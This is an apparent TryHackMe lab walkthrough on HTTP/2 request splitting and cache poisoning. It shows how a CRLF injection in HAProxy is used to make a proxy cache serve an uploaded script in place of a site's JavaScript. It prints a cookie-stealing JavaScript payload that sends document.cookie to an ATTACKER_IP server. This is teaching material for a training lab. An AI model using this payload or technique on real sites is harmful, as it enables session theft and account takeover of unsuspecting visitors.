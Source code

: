 In any of those cases, the attacker can add arbitrary content to the website, which can be cached by the proxy and associated with any URL (existing or not). In the case of our application, we have an upload functionality at our disposal ([https://10.10.21.78:8100/upload](https://10.10.21.78:8100/upload)). We can use it to upload any payload we want cached later.

![File Uploads](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/6d99b711e1f7288154412c971a60b629.png)  

Executing the Plan

Our goal in this task will be to steal cookies from any user visiting [https://10.10.21.78:8100/](https://10.10.21.78:8100/). The lab already simulates a victim user, and the flag for this task is in that user's cookies.

One option we could use would be poisoning the cache for `/` directly. But we want to be a bit more silent about things. By quick inspection, we can notice that `/` executes the `showText()` javascript function when the page's body loads, which is defined in `/static/text.js`. 

![Analysing the javascript loaded by the website](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/19a63985e226cb553972ee3448af1365.png)  

Let's try to poison the cached version of `/static/text.js` to include a javascript payload to steal the cookies from the user.

Since we need the javascript payload to be on the website before the cache poisoning, let's start by uploading the following payload in a file named `myjs.js`:

```javascript
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
       document.getElementById("demo").innerHTML = xhttp.responseText;
    }
};
xhttp.open("GET", "https://ATTACKER_IP:8002/?c="+document.cookie, true);
xhttp.send();
```

This is a simple payload that will forward the victim's cookies back to a web server controlled by the attacker. Be sure to replace ATTACKER_IP with the IP address of your AttackBox. The only special thing about this payload is that it forwards the cookie via https. We need to use https, since HTTP/2 runs over https by default. If a script in an https website tried to load a resource using plaintext http, most browsers would block the action for security reasons. This means your standard python http server won't actually be able to receive the cookies, but more on that later.

After uploading our payload, the website will let us know that the file has been saved to `/static/uploads/myjs.js`. We now need to poison the cache so that it serves our payload whenever `/static/text.js` is requested. To do so, we will use the following request:

![HTTP request splitting to poison the cache](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/b97db693a7c07ee9c72d785351090281.svg)  

Here, we are reusing the CRLF injection vulnerability in HAProxy to perform a request splitting attack in the backend. The first backend request will get the contents of `/static/text.js`. The second request will be for `/static/uploads/myjs.js`. The proxy should expect a single response to its request, but is getting two instead. The proxy will take the first response and serve it to the user, and keep the second response queued in the backend connection.

Note that we included the `Pragma: no-cache` header in our request to force the proxy to bypass any cached content and send the request to the backend server. Doing so allows us to send several requests until our payload is correctly triggered without waiting for the cache to time out.  
